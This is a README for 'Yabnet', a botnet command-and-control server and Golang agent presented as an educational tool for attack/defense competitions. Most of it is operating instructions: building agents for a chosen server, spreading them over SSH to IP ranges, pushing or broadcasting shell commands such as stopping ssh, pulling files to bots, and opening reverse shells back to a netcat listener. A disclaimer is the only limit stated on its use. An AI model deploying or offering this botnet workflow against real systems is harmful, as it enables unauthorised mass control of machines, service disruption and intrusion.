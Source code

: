 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3++ Flask, deployed in docker. Yabnet agent is written in Golang.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction - TODO 
-----------

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [ ] Clean up debugging codes in all files 
- [ ] Finalize and structure all in-code comments 
- [x] Enhance README documentation and usage 
- [ ] Support communicating with PWNBOARD 


## Installation 

**Yabnet requires python3.7++, GOLANG, and docker**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

Install Golang if it is not installed. 

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

**Utility scripts** 

`/yabnet/agent/generator.py` = Python script which creates agent golang file with specified server IP address and port number 
`/yabnet/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH

## Installation 

### Server setup - Docker
```
cd /opt/yabnet/server
docker build -t yabnet .
docker run -e USER=<username> -e PASS=<password> -e MASTERKEY=<masterkey> -p 5000:5000 yabnet 

(Example: docker run -e USER=admin -e PASS=password -e MASTERKEY=masterkey -p 5000:5000 yabnet )
```

### Agent setup - Golang 

**Generating Agent through terminal**

```
# Create executable with generator script
python3 /opt/yabnet/agent/generator.py -i <serverip> -p <port> -f
# Verfiy the executable was created 
file /opt/yabnet/agent/agent
```

**Generating Agent through master console**
```
python3 /opt/yabnet/master/master.py
Yabnet>> generate -i <serverip> -p <serverport> -f 
```

**Transfer the agent file** 

Transfer `/opt/yabnet/agent/agent` to the target machine and run it.

Feel free to change the name of the executable. 

### Master setup

Use the credential that was passed through the `docker run` command for the server. 

```
python3 /opt/yabnet/master/master.py
Yabnet>> login -r localhost -u <user> -p <password>
Yabnet>> list

# By the way, all master console commands have help flag.
Yabnet>> push -h 
``` 


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1 -u admin -p password` |
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t <botip>,<botip> -c "cat /etc/passwd | grep backdoor"` | 
| download | Command a bot to download a file from the server | `download -t <botip> -f <server_file> -d <bot_filesystem_destination>` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botip> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots | `broadcast -c "systemctl stop ssh"` | 
| help | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 
`ex) push -t 10.0.1.1,10.0.2.1,10.0.3.1 -c "systemctl stop apache2"`
2. Reverse shell command requires the master to open a new console and setup a netcat listener. 
`ex) reverse -t 10.0.3.4 -p 31337` 
`ex) nc -lvnp 31337         // And then for the reverse shell from 10.0.3.4` 
3. The server is hosting files in `/opt/yabnet/server/uploads/` directory. 

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
